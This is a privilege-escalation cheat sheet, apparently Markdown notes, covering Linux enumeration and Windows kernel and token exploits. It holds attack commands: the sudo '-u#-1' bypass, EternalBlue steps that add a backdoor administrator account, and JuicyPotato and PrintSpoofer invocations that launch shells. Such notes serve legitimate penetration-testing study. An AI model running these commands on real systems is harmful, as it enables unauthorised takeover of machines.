 	- If exist, probably in docker 
- Notice mount point
- Mount data `/proc/1/mountinfo` , `/proc/self/mounts` (LFI can read)
### SOP
- Check `sudo -l`
	- What file we can run as super user 
- Check crontab
    - `cat /etc/crontab `
	- With LinEnum, LinPeas
	- PsPy check
- Check SUID / SGID
    - `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
    - `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
    - With [GTFOBins](https://gtfobins.github.io/)
- Check sudo version
	- [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)
		- sudo < 1.8.28
		- `sudo -u#-1 binary`
    - [CVE-2010-0426](https://github.com/t0kx/privesc-CVE-2010-0426) Sudo 1.6.x <= 1.6.9p21 and 1.7.x <= 1.7.2p4
        - sudoedit 
- Check $PATH / import library permission
	- Program Hijack
- Check capability
    - `getcap -r / 2>/dev/null`
	- Check if the program has some useful capability
- Check backup file
## Privilege - Windows
### XP
- [Windows XP SP0/SP1 Privilege Escalation to System](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
### Exploit
- https://github.com/SecWiki/windows-kernel-exploits
- [EternalBlue MS17-010](https://github.com/helviojunior/MS17-010)
    - Prepare msf reverse shell exe
    - run `send_and_execute.py` 
        - Maybe need to change username to `guest`
    - If can't reply some port
        - use `zzz_exploit.py` , change `smb_pwn`  function 
        - `service_exec(conn,r'cmd /c net user /add meow Me0www')` 
        - `service_exec(conn,r'cmd /c net localgroup administrators meow /add')`
- [Cerrudo](https://github.com/Re4son/Churrasco)
    - Windows Server 2003
- [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip)
    - `ms15-051x64.exe whoami`
- [JuicyPotato x64](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe) , [x86](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe)
    - User have `SeImpersonate` or `SeAssignPrimaryToken` by `whoami /priv`
    - `JuicyPotato.exe -l 1337 -p shell7878.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`
        - `-c` (Include curly brackets)
            - CLSID from https://ohpe.it/juicy-potato/CLSID/
        - `-p` Exe Program 
        - Not work for Windows Server 2019 and Windows 10 versions 1809 and higher.
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
    - Windows Server 2019 and Windows10
    - `SeImpersonatePrivilege` Enable 
    - `PrintSpoofer.exe -i -c cmd`
- [XP SP0 \~ SP1](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
    -  `net start SSDPSRV`